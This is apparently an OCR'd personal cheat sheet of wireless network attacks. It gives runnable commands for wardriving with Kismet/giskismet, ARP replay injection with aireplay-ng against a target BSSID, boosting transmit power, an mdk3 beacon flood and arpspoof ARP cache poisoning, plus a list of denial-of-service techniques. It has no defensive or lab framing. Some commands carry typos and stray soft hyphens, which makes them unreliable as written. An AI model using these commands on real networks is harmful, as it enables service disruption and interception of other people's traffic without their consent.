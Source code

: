 ```

```
apt-get install gpsd
apt-get install gpsd-clients
lsusb
ls /dev/gps*
apt-get install giskimet
giskismet ­-x Kismet-DATE.netxml ­-q "select * 
    from  wireless" ­-o wardrive.kml
```

## sniffing tools

* Dsniff
* Tcpdump
* EtherApe
* Wireshark
* Kismet
* arpspoof

## arpreplay

Once target shows up in aireplay

```
aireplay-ng --arpreplay -b <target BSSID> -h <MAC of connected client> <interface>
aireplay-ng -2 -r ./replay_.cap ath0
```

## turn up signal power

```
iwconfig wlan0 txpower 27
```

## attacking availability

* dissassociation flood
* detecting beacon frames
* spoofing beacon frames
* executing a beacon flood
* executing a deauthentication flood
* ARP cache poisening
* performing a denial of service
* hiding a wireless network

## beacon frame flood

```
mdk3 wlan0mon b -n "impa" -b 54 -w a -m -c 11
```

## arp cache poisening

```
arpspoof -i eth0 -t target-ip target-gateway-ip
```

